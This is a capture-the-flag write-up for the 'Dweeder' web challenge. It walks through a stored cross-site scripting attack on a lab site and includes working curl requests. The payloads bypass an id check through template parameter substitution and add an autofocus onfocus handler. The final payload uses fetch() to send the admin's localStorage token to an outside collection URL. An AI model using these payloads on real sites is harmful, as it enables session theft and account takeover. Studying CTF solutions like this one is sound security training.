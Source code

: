 # Dweeder - KipodAfterFree

## Understanding
Users are allowed to compose titles and contents and submit them to the server. When @shuky is used, the admin will visit the new submissions and check them out. If the site does not sanitize the user inputs properly, malicious scripts can be injected and executed. 

When a user click on the ``send Dweed!`` button, sendDweed() is invoked and the following function is involved:
```javascript
# This function sends a json query to the dweed server. The query is of a json type, consisting of the following parameters: token, title, contents. Two of the parameters, without doubts, are under user's controls (i.e., title, contents). Upon success, the server returns a dweed id, and the function redirects the user to a new url with respect to the dweed id.
function writeDweed() {
    API.call("dweeder", "writeDweed", {
        token: window.localStorage.getItem("token"),
        title: UI.read("write-title"),
        contents: UI.read("write-contents")
    }).then((id) => {
        window.location = "?dweed=" + id;
    }).catch(alert);
}
```

When a dweed is rendered, either by listener or an explicit click on the Feed menu, the following functions are involved:
```javascript
# readDweed is called to obtain a dweed info from the server
function readDweed(id) {
    return new Promise((resolve, reject) => {
        API.call("dweeder", "readDweed", {
            token: window.localStorage.getItem("token"),
            id: id
        }).then((dweed) => {
            ...
            resolve(dweed);
        }).catch(reject);
    });
}
# then insertDweed is called to validate a dweed id before writing the dweed back into the HTML template
function insertDweed(dweed) {
    ...
    // Make sure id is valid
    if (dweed.id.length > 28)
        return;
    for (let char of dweed.id)
        if ("0123456789 abcdefghijklmnopqrstuvwxyz ABCDEFGHIJKLMNOPQRSTUVWXYZ !@#$%^&*()_-+={}|".includes(char) === false)
            return;
    // Add the dweed
    UI.find("dweeds").appendChild(UI.populate(template, dweed));
}
```
While populating the dweed, all user-supplied parameters are iterated and are replaced with their values. At the same time, their contents are also sanitized:
```javascript
static populate(template, parameters = {}) {
  ...
  // Sanitize value using the default HTML sanitiser of the target browser
  let sanitizer = document.createElement("p");
  sanitizer.innerText = value;
  value = sanitizer.innerHTML;
}
```

## Enumerating

After a few submissions, we can observe that the two parameters (i.e., title and contents) are properly filtered not only on the server side, but also on the client side (by the HTML sanitiser).

However, the server allows us to create new parameters, which can help us by pass the sanitization on the server side. Let's check this out:
```bash
# 1st attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"313630353134353638306f676771","status":true} # Server responses

curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&id=313630353134353638306f676771" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?readDweed
{"result":{"title":"a","contents":"a","time":"01:48","handle":"test213"},"status":true} # Server responses

# 2nd attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&myvar=a" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"313630353134353939396e70326e","status":true}

curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&id=3136303531343638333436366d64" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?readDweed
{"result":{"title":"a","contents":"a","myvar":"ajavascript:alert(1)\"","time":"02:07","handle":"test213"},"status":true}

# 3rd attempt
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=ajavascript:alert(1)\"" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531343730333175707a74","status":true}

```
From 3 attempts, we concluded a few things:
- In the 1st attempt, we knew all the parameters that the server is expecting
- In the second, we observed that the server allows creation of new parameters
- In the third, we knew that the id parameter is not properly sanitized on the server side. Strangely enough, we could have still visited the dweed using the numeric ID provided by the server. This gave us another hint: server actually uses two types of ID for a dweed, but for what purpose then? 

## Exploiting
The 3rd attempt told us that we needed to look into the id field. We tried to inject code into the id parameter to close the double quote.
```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=\"" -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531343736343936676d33","status":true}
```
However, visiting the dweed renders nothing at this time. This was because the check within the insertDweed() found out that there was an illegal character "\" in the id's value, so it immediately returned. Fortunately, we could craft an id's value like this ``\${myvar}`` which passed the check. Note that we need to escape the dollar sign.

Since the server allows new parameter creation, and since ``$myvar`` shall be updated during the template's population after the id validation, we chained them together to get a new effective id. If ``${myvar}`` can be replaced with \" then we can indirectly assign ${id} = \". Let's see:

```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=a&id=\${myvar}&myvar='\" tabindex=1 onfocus=\"alert(1)\" autofocus " -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531353834353431386f30","status":true}
```
Using Chrome, we immediately saw the pop-up. Chrome automatically applies focus on the div with highest priority (1). It was not clear why this pop-up was not shown in Firefox, which requires user to click on the div area. Next, we changed the alert(1) to malicious code that fetches victim token.

```bash
curl -d "token=eyJleHBpcnkiOm51bGwsImNvbnRlbnQiOnsibmFtZSI6InRlc3QxMjMiLCJoYW5kbGUiOiJ0ZXN0MjEzIn19:QmTpmSxf7FunhP98U3qAWP/vgJpmEbw4XHrpBkdqVIg=&title=a&contents=@shuky&id=\${myvar}&myvar='\" tabindex=1 onfocus=\"fetch('https://3b33c4880500a943a57f89f4574b6024.m.pipedream.net/?token='%2BlocalStorage.getItem('token'))\" autofocus " -X POST https://dweeder.ctf.kaf.sh/apis/dweeder/?writeDweed
{"result":"3136303531363031373273703868","status":true}
```
Decoding the victim token, we obtained the flag:{"expiry":null,"content":{"name":"KAF{_w3ll_th4t5_wh4t_b4d_c0d3_l00k5_l1ke}","handle":"shuky"}}


